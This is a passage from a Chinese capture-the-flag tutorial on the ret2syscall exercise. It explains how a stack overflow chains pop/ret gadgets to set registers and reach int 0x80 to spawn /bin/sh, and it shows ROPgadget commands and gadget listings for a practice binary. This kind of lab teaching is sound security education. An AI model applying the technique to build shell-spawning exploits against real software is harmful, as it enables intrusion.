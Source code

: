 
过程：溢出后此时返回的地址是 pop eax 的地址，程序进而转型向该地址执行，此时栈顶的元素为 0xb，执行 pop eax 后 eax 的值成功地赋值为 0xb，接着执行 pop eax 后一句指令 ret，返回下一条指令的地址，需要出栈，正好将程序的执行位置转向了 pop ebx 所在的位置，重复上述过程，到最后将程序指向了 int 0x80 处，进行系统调用

那么，如何找到类似的 pop eax，ret 程序呢——使用工具：ROPgadget

使用如下命令：

```bash
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'eax'

0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

以上可随意选择，为了简单起见，可以选择第 4 行，即地址为 0x080bb196

选择其他的也可以，比如第一行，在地址后面首先放入 0xb，再放入 addr(/bin/sh),再随意放入 8 个字符填充 esi 和 edi，再放入填充 ecx 指令的地址，原理类似，搞清楚执行流程即可

```bash
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'ebx'

0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```
